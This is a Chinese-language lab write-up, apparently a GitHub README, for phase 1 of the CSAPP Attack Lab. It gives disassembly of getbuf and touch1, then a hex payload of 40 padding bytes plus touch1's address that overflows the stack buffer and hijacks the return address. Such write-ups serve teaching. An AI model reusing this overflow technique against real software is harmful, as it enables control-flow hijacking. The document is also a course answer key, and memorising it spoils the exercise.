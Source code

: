 # CSAPP Attacklab


# CSAPP-Attacklab

程序在一系列的初始化之后，会进入test



## phase_1

```assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
```

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq
```

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

覆盖返回地址，使程序进入`touch1`。`getbuf`的栈长度为`0x28`，`Gets`的第一个参数正好在栈上。所以，先输入`0x28`字节的`padding`，然后覆盖返回地址为`touch1`的地址。

答案(必须是hex)：

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
